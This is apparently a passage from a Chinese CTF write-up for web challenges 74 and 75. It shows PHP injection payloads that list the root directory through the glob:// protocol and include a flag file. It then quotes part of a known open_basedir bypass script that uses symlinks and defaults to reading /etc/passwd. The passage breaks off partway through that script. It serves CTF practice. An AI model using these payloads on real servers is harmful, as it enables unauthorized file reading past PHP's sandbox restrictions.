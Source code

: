 ````
```

## web74~glob协议

`c=var_export(scandir('/'));die();` 结果输出`NULL` .

glob 协议读取： 

```php
c=$it = new DirectoryIterator("glob:///*");foreach($it as $f) {echo$f->getFilename()."\n";}die();
```

得到flag:

```
c=include('/flagx.txt');die();
```

## web75~不太行

`glob://`协议读文件名`flag36.txt`，

```
c=$it = new DirectoryIterator("glob:///*");foreach($it as $f) {echo$f->getFilename()."\n";}die();
```

接下来就是懵逼时刻了。

p牛的bypass open_basedir脚本：

```php
<?php
header('content-type: text/plain');
error_reporting(-1);
ini_set('display_errors', TRUE);
printf("open_basedir: %s\nphp_version: %s\n", ini_get('open_basedir'), phpversion());
printf("disable_functions: %s\n", ini_get('disable_functions'));
$file = str_replace('\\', '/', isset($_REQUEST['file']) ? $_REQUEST['file'] : '/etc/passwd');
$relat_file = getRelativePath(__FILE__, $file);
$paths = explode('/', $file);
$name = mt_rand() % 999;
$exp = getRandStr();
mkdir($name);
chdir($name);
for($i = 1 ; $i < count($paths) - 1 ; $i++){
    mkdir($paths[$i]);
    chdir($paths[$i]);
}
mkdir($paths[$i]);
for ($i -= 1; $i > 0; $i--) { 
    chdir('..');
}
$paths = explode('/', $relat_file);
$j = 0;
for ($i = 0; $paths[$i] == '..'; $i++) { 
    mkdir($name);
    chdir($name);
    $j++;
}
for ($i = 0; $i <= $j; $i++) { 
    chdir('..');
}
$tmp = array_fill(0, $j + 1, $name);
symlink(implode('/', $tmp), 'tmplink');
````